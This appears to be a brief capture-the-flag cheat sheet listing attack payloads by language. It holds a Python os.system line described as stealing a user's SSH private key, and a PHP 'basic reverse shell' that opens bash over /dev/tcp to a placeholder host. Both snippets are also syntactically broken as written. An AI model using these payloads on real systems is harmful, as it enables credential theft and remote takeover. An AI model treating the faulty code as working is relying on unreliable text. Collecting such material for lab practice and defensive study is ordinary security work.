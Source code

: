 ## Python
- `import os; os.system({BASH COMMAND})` ex. from [Share - Writeup](Share%20-%20Writeup.md Machines/Share - Writeup.md>) `import os; os.system(cat ~/.ssh/id_rsa > /tmp)` this command was used in order to get the id_rsa of the user running the process in order to enter to the user via ssh with no password

## PHP
- `<?php bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1' ?>` - Basic PHP reverse shell